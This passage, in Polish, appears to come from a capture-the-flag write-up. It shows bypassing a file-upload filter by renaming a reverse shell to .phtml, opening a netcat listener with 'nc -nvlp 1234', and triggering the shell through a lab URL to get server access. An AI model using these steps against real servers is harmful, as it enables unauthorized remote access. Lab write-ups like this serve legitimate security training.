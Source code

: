 ![](p/10.png)


Zmieńmy zatem rozszerzenie naszego pliku na .phtml i wrzućmy go raz jeszcze, tym razem z sukcesem. Na maszynie atakującej uruchamiamy nasłuchiwanie na porcie 1234 (tak jak podaliśmy w reverse shellu), robimy to poleceniem `nc -nvlp 1234`. Uruchamiamy nasz payload wpisując w przeglądarce:


    http://10.10.183.177:3333/internal/uploads/rev_shell.phtml


Udało nam się uzyskać dostęp do serwera


![](p/11.png)
